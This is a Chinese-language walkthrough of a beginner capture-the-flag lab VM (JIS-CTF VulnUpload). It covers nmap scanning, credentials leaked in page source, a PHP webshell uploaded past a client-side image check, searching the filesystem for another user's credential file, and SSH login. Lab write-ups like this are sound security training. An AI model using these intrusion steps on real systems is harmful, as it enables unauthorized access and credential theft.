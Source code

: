 靶机描述:
```
Description
VM Name: JIS-CTF : VulnUpload

Difficulty: Beginner

Description: There are five flags on this machine. Try to find them. It takes 1.5 hour on average to find all flags.

This works better with VirtualBox rather than VMware
```


[搭好环境](../环境搭建.txt)

靶机:
![img](JIS-CTF/images/image-1.png)

![img](JIS-CTF/images/image-2.png)



kali扫网段 找到靶机ip
`nmap -sn 192.168.136.0/24`
![img](JIS-CTF/images/image.png)

靶机ip: 192.168.136.150

信息收集
`nmap -A 192.168.136.150`
```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -A 192.168.136.150  
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-15 03:10 CST
Nmap scan report for 192.168.136.150
Host is up (0.00076s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 af:b9:68:38:77:7c:40:f6:bf:98:09:ff:d9:5f:73:ec (RSA)
|   256 b9:df:60:1e:6d:6f:d7:f6:24:fd:ae:f8:e3:cf:16:ac (ECDSA)
|_  256 78:5a:95:bb:d5:bf:ad:cf:b2:f5:0f:c0:0c:af:f7:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 8 disallowed entries 
| / /backup /admin /admin_area /r00t /uploads 
|_/uploaded_files /flag
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Sign-Up/Login Form
|_Requested resource was login.php
MAC Address: 00:0C:29:29:4A:BE (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.76 ms 192.168.136.150

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.58 seconds

```

可以发现扫出了 ssh 和 tcp 端口
还有/robots.txt:
```
User-agent: *
Disallow: /
Disallow: /backup
Disallow: /admin
Disallow: /admin_area
Disallow: /r00t
Disallow: /uploads
Disallow: /uploaded_files
Disallow: /flag
```

访问/flag拿到第一个flag
**flag1**: The 1st flag is : {8734509128730458630012095}



接下来访问上面几个路由都不大对劲
能访问通的有 /uploaded_files /admin_area(显示not work)

应该是有文件上传点?
是要先登录吗???

尝试sqlmap打登陆sql 未果 手动测试感觉也不大能注入


dirb扫到/assets路由 能找到js源码

能看到对上传文件大小等有限制 但应该还是要登录先

弱口令爆破一下
尝试以admin和root作为username  用 `某集团下发弱口令字典` 9.6w+没爆出来 大概率不是弱口令


或者还有可能是前面的ssh能登陆?
看了看host key好像可以authentic 是要在本地转成rsa pubkey?

没辙...

回去看/admin_area路由
ctrl+u看源码...

```
<!--	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
-->
```
得到了flag2和登陆用户名/密码...

**flag2**: {7412574125871236547895214}

username: admin
password: 3v1l_H@ck3r

登陆发现可以传文件 那应该就是文件上传shell了

看前面/assets路由泄露的js发现对文件是有waf的
```js
beforeEach: function(file){
			if(!file.type.match(/^image\//)){
				alert('Only images are allowed!');
				
				// Returning false will cause the
				// file to be rejected
				return false;
			}
		},
```

然而无论传什么都是success回显 且找不到文件路径...
/uploaded_files路由也没有信息
然后发现是这个路由: `http://192.168.136.150/uploaded_files/1.php`
就能看到上传的文件

AntSword连接
进一步信息收集
```
(www-data:/var/www/html/uploaded_files) $ ls ../
admin_area
assets
check_login.php
css
flag
flag.txt
hint.txt
index.php
js
login.php
logout.php
robots.txt
uploaded_files
```

访问hint.txt:
```
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)
The 3rd flag is : {7645110034526579012345670}
```

**flag3**: {7645110034526579012345670}
然后根据尝试和提示知道flag.txt需要一定权限

hidden file???
用find来找与 technawi用户相关的信息
```
(www-data:/var/www/html) $ find / -user technawi 2>/dev/null
/etc/mysql/conf.d/credentials.txt
/var/www/html/flag.txt
/home/technawi
/home/technawi/.cache
/home/technawi/.bash_history
/home/technawi/.sudo_as_admin_successful
/home/technawi/.profile
/home/technawi/.bashrc
/home/technawi/.bash_logout
```

然而都没有权限... 好的看漏了第一个mysql...
`cat /etc/mysql/conf.d/credentials.txt` 得到flag4
```
(www-data:/var/www/html) $ cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}
username : technawi
password : 3vilH@ksor
```

**flag4**: {7845658974123568974185412}

username : technawi
password : 3vilH@ksor

还有个问题是怎么在蚁剑的shell执行su...
尝试mysql登陆 也报权限❌
```
(www-data:/var/www/html) $ mysql -u technawi -p
Enter password: ERROR 1045 (28000): Access denied for user 'technawi'@'localhost' (using password: NO)
```

也有可能是前面ssh端口的账户密码 尝试kali ssh连接靶机
```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# ssh technawi@192.168.136.150 -p 22
technawi@192.168.136.150's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Fri Apr 21 17:22:16 2017
technawi@Jordaninfosec-CTF01:~$ 
technawi@Jordaninfosec-CTF01:~$ cat /var/www/html/flag.txt
The 5th flag is : {5473215946785213456975249}

Good job :)

You find 5 flags and got their points and finish the first scenario....

```
成功！

**flag5**: {5473215946785213456975249}

---
---

总结:
打的第一个machine 磕磕绊绊也算是整完了...
重点真的是信息收集!!!!!!!!!!!!!!!!!!!!!!
等会儿总结一下nmap的扫法 还有ssh的相关知识
冲!
每一个渗透高手的进阶之路都有一个微不足道的开始！